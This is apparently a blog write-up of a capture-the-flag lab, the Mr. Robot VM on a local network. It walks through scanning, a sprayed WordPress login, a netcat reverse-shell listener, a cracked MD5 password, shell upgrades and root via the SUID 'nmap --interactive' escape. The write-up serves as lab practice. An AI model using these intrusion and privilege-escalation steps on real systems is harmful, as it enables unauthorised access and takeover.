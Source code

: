 ```yaml
---
layout: post
title: Elliot
date: 09-05-2025
categories: [medium]
tags: [exfiltration, blind, commandinjection, wget]
image: "https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcQQ-wEVmL83jyrWR4RDI9C3wvdlGdmiheafEg&s"
---
```

> Hi kiddle lets move into hacking world.
{: .prompt-danger }
## Scanning
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-09 05:42 EDT
Nmap scan report for 192.168.56.101
Host is up (0.00040s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:8D:AF:24 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.07 seconds


```

## Enumatration 
Testing using burb suite i hghave identfy the user elliot is present by testing one password and spray the user lists.
Using burbsuite
![Screenshot From 2025-05-09 05-57-04](https://github.com/user-attachments/assets/c70dbb6e-24c7-4d27-8cb7-7eb59af5723e)


```
elliot:ER28-0652
```

## Initial access
 using pntest monkey to have the reverse shell. Under conditio i have truiied to see in wp-contents.php but cant access this place. But in every place with an error there is an error page now we can use this as out gate way execution to get the initial access of the target.
```
┌──(cyberkid㉿cyberkiddle)-[~/Desktop/hack]
└─$ nc -lnvp 1234                
listening on [any] 1234 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.101] 54157
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 06:09:58 up 33 min,  0 users,  load average: 0.01, 0.03, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
![Screenshot From 2025-05-09 06-10-10](https://github.com/user-attachments/assets/b5f2f009-6eca-4314-80ee-ef0abeee0c34)

## Privilge escalation 
we can see there is mr robot in the user and the passwoird key md5.
```
$ cd robot
$ ls -al
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

```
## Cracking the password
![Screenshot From 2025-05-09 06-52-10](https://github.com/user-attachments/assets/9554366f-29c1-40d2-ac8b-faaa566ad33f)
Once elliot sayed every one uses simple and common password.

```
abcdefghijklmnopqrstuvwxyz: abcdefghijklmnopqrstuvwxyz

```
## Try switch the user to robot
Initilally the root access will fail because the terminal is not stable.
![Screenshot From 2025-05-09 06-57-32](https://github.com/user-attachments/assets/93e00c5d-c8b7-4261-aa50-0c4abbde9d48)

> Hellow friend.
{: .prompt-hint }

```
daemon@linux:/tmp$ su robot
su robot
su: must be run from a terminal
daemon@linux:/tmp$ script /dev/null -c bash
script /dev/null -c bash
daemon@linux:/tmp$ su robot 
Password: 
su: Authentication failure
daemon@linux:/tmp$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/tmp$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/tmp$ whoami
whoami
robot

```

## Privilage escalation and gain access
> TRy see if we can get any of the vuln files
{: .prompt-tip }
SUID file
```
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-and-suid
strace Not Found
-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 68K Feb 12  2015 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-x 1 root root 93K Feb 12  2015 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
-rwsr-xr-x 1 root root 44K May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 37K Feb 17  2014 /bin/su
-rwsr-xr-x 1 root root 46K Feb 17  2014 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
-rwsr-xr-x 1 root root 32K Feb 17  2014 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 41K Feb 17  2014 /usr/bin/chsh
-rwsr-xr-x 1 root root 46K Feb 17  2014 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 67K Feb 17  2014 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 152K Mar 12  2015 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap
-rwsr-xr-x 1 root root 431K May 12  2014 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10K Feb 25  2014 /usr/lib/eject/dmcrypt-get-device
-r-sr-xr-x 1 root root 9.4K Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14K Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-x 1 root root 11K Feb 25  2015 /usr/lib/pt_chown  --->  GNU_glibc_2.1/2.1.1_-6(08-1999)

```
## Exploiting NMAP
> Simple right. But if you havent leved up your shell nop nop! sorry.
{: .prompt-tip }

```
robot@linux:/tmp$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> 

Bogus command -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# pwd
pwd
/root
# ls
ls
firstboot_done	key-3-of-3.txt
# 


```
![Screenshot From 2025-05-09 06-54-26](https://github.com/user-attachments/assets/5fd7e122-53f6-471f-9598-f55ddbf07119)

> Have you learn any thing? text me on whatsapp see my about and tell me the lab lab you think i have to solve and see how we will move move together.
{: .prompt-tip }
